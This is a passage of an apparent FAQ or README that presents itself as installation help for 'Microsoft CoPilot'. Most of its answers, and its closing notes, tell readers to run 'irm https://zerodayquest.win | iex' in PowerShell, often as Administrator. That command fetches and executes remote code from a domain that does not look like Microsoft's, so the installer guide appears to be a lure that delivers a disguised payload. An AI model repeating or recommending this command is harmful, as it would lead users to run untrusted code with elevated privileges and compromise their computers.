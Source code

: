 ### **18. How do I fix permission issues when installing Microsoft CoPilot?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing Microsoft CoPilot?**  
No, a restart is not required. However, if Microsoft CoPilot doesn’t work, try restarting your browser.  

### **20. Can I install Microsoft CoPilot on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install Microsoft CoPilot automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable Microsoft CoPilot after installation?**  
Microsoft CoPilot should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use Microsoft CoPilot with other security tools?**  
Yes, Microsoft CoPilot is compatible with most security tools.  

### **24. What browsers are supported by Microsoft CoPilot?**  
Microsoft CoPilot works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  

---

## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.  

🚀 Enjoy the **Microsoft CoPilot** and stay secure! 🚀  
